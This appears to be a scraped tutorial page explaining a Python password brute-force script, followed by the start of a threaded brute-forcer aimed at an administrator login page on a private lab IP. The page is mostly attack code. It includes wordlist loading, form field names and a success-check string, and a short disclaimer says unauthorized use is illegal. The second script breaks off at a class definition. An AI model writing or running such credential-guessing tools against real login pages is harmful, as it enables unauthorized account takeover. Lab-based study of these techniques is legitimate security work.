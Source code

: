 Explanation of the script:

1. **Import the `socket` module:**
   ```python
   import socket
   ```

2. **Set the target host and port, and define the username and passwords:**
   ```python
   target_host = "example.com"
   target_port = 80
   username = "admin"
   passwords_file = "passwords.txt"
   ```

3. **Load passwords from a file:**
   ```python
   with open(passwords_file, "r") as file:
       passwords = [line.strip() for line in file]
   ```

4. **Define the `brute_force` function:**
   - Iterate through the loaded passwords.
   - Construct an HTTP POST request with the username, password, and submit button.
   - Create a socket connection to the target server.
   - Send the HTTP POST request.
   - Receive the response from the server.
   - Check if the response contains an indication of successful login.
   - Print the result and close the socket connection.

5. **Execute the `brute_force` function:**
   ```python
   if __name__ == "__main__":
       brute_force()
   ```

This script is a basic example, and it assumes that the authentication response contains a clear indication of success or failure. In real-world scenarios, the authentication process may involve more complex interactions, such as handling cookies or redirects. Additionally, brute-forcing authentication is generally unethical and illegal without explicit authorization. Always ensure that you have permission to perform any security testing or assessment.
```python
import http.cookiejar
import queue
import threading
import urllib.error
import urllib.parse
import urllib.request
from abc import ABC
from html.parser import HTMLParser

# general settings
user_thread = 10
username = "admin"
wordlist_file = "cain.txt"
resume = None

# target specific settings
target_url = "http://192.168.112.131/administrator/index.php"
target_post = "http://192.168.112.131/administrator/index.php"

username_field = "username"
password_field = "passwd"

success_check = "Administration - Control Panel"


class BruteParser(HTMLParser, ABC):
```